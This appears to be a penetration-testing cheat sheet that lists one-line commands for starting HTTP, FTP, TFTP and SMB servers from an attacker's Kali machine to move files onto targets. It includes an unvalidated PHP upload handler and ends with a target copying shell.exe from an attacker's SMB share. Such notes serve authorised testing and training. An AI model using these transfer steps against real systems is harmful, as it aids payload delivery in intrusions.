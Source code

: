 # HTTP Server

### Python3 server

```bash
python3 -m http.server [port]
```

### Python2 server

```bash
python -m SimpleHTTPServer [port]
```

### PHP server

```bash
php -S 0.0.0.0:8000
```

### Ruby server

```bash
ruby -run -e httpd . -p 9000
```

### Busybox server

```bash
busybox httpd -f -p 10000
```

### Apache server

```bash
service apache2 start
cd /var/www/html
```

### PHP Downloader

```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

---

# FTP Server

### pure-ftpd

Fast setup:

```bash
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Files contained within `/ftphome` will be available once connected

### python3

```bash
python3 -m pyftpdlib -p 21
[I 2020-07-14 22:54:10] >>> starting FTP server on 0.0.0.0:21, pid=7302 <<<
[I 2020-07-14 22:54:10] concurrency model: async
[I 2020-07-14 22:54:10] masquerade (NAT) address: None
[I 2020-07-14 22:54:10] passive ports: None
```

- `-w`: write access
- `-u`: specifies username to use
- `-P`: specifies password to use

### TFTP

```bash
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

---

# SMB

### Impacket

`smbserver.py` ([ref](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)) from the [impacket](../Tools/impacket.md) project can be used to launch a nice, simple SMB server on port 445.

```bash
# Non authenticated share
kali@kali:~$ python smbserver.py transfer_share /root/shells/

# authenticated share
kali@kali:~$ sudo impacket-smbserver kali . -smb2support -username maoutis -password Qwerty
```

```bash
C:\>copy \\192.168.119.209\transf_share\shell.exe .
copy \\192.168.119.209\transf_share\shell.exe .
        1 file(s) copie
```